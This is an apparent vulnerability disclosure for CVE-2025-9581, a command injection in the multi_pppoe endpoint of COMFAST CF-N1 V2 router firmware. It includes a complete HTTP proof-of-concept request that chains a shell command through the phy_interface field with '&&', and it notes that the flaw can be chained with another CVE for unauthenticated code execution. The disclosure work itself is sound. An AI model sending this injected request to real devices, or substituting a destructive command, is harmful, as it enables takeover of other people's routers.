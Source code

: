 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `multi_pppoe`

PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `multi_pppoe` API (`/usr/bin/webmgnt`, function `sub_42FF1C`). Attackers can inject arbitrary commands via the `phy_interface` parameter when using the `one_click_redial` action, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`

*   **Vulnerability**: Command Injection

*   **CVE ID**: CVE-2025-9581

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_42FF1C` function handling the `multi_pppoe` configuration. Disassembly analysis shows that the `phy_interface` parameter is unsanitized and directly incorporated into system commands via `sprintf_0` when the `action` is set to `one_click_redial`.

Key code flow:



1.  User input (including `phy_interface`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  When `action` is `one_click_redial`, the `phy_interface` value is inserted into a command string using `sprintf_0` (e.g., constructing `ifdown %s; ifup %s` or similar network interface commands).

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `&&`, `;`, or `|`.

This direct concatenation of unvalidated input into executable commands enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 105
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{"action":"one_click_redial","phy_interface":"br-wan && echo pppoe > /www-comfast/test.txt","real_num":1}
```



*   **Notes**: The vulnerable parameter is `phy_interface`, exploited using `&&` to chain an additional command.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "pppoe", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
